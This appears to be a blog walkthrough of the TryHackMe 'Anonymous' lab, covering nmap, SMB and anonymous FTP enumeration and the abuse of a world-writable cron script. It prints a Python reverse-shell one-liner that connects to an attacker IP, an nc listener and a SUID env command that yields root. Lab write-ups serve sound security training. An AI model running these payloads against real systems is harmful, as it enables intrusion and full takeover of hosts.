 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/de6eece3-9ff2-4439-9c01-c6433e45bc04"> Anonymous | Tryhackme | Walkthrough 
date: 2024-01-06 07:00:02 +730
categories: [Write Up, TryHackMe]
tags: [anonymous,walkthrough,tryhackme,privilege-escalation,hydra,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 6</h1>

![anonymous-image-3385687945](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/bec39529-aa33-4e82-a201-a5ebe01a6d76){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }



## Nmap 

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -T4 10.10.215.229
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 07:04 EST
Nmap scan report for 10.10.215.229
Host is up (0.24s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.105.144
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 3s, deviation: 1s, median: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-14T12:05:13
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-12-14T12:05:14+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.56 seconds
```

## 1️⃣ Lets Start with SMB 👨🏻‍💻

```
smbclient -L //10.10.107.211
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

Lets Get into **pics** share 

`smbclient -N \\\\10.10.107.211\\pics`

```
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```

Download it through `mget`

```
smb: \> prompt
smb: \> mget *
getting file \corgo2.jpg of size 42663 as corgo2.jpg (87.9 KiloBytes/sec) (average 87.9 KiloBytes/sec)
getting file \puppos.jpeg of size 265188 as puppos.jpeg (470.0 KiloBytes/sec) (average 293.3 KiloBytes/sec)
```

After a hard try on those images with `strings` , `steghide` , `stegosolve` `stegseek` ended up with nothing!! 


## 2️⃣ FTP 

```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35464|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||15525|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1548 Jan 25 03:41 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

`Download all the three files with mget`

### to_do.txt
```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

### clean.sh 
```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### removed_files.log
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

## 3️⃣ Get Set GO 🏁 

so this clean.sh is attached to a cronjob basically the clean.sh removes files from /tmp directory and keep the updates in removed_files.log file 

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

## 4️⃣ Getting Reverse shell 


Payload
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.40.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Listner 
```
nc -lnvp 1234
```

```
namelessone@anonymous:~$ ls
pics  user.txt
```

## 5️⃣ Privilege Escalation

`Gtfobins`

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
